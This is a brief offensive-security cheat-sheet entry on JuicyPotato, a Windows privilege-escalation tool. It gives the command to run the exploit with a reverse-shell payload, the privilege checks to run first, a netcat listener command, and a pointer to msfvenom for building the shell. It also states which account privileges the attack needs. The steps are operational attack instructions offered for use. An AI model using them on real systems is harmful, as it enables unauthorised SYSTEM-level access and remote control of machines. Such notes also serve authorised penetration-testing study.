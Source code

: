 ## JuicyPotato
https://github.com/ohpe/juicy-potato
```
JuicyPotato.exe -l 1338 -p {reverse shell} -t *  

whoami /priv
whoami /all
```
> nc -lvnp 1338
> use msfvenom to create a reverse shell file
> Conditions: Account must have SeImperrsonate or SeAssignPrimrayToken


